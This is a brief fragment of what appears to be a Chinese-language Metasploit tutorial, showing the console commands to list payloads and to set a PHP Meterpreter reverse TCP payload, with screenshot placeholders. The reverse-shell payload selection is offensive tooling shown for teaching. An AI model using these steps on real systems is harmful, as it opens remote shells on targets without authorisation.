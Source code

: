 ```
# show 显示可用模块
show payloads
```

![图片描述](../imgs/1479964433170.png-wm.png)


```
# set 命令，使用 PAYLOAD 模块
set PAYLOAD php/meterpreter/reverse_tcp

```

![图片描述](../imgs/1479964503718.png-wm.png)
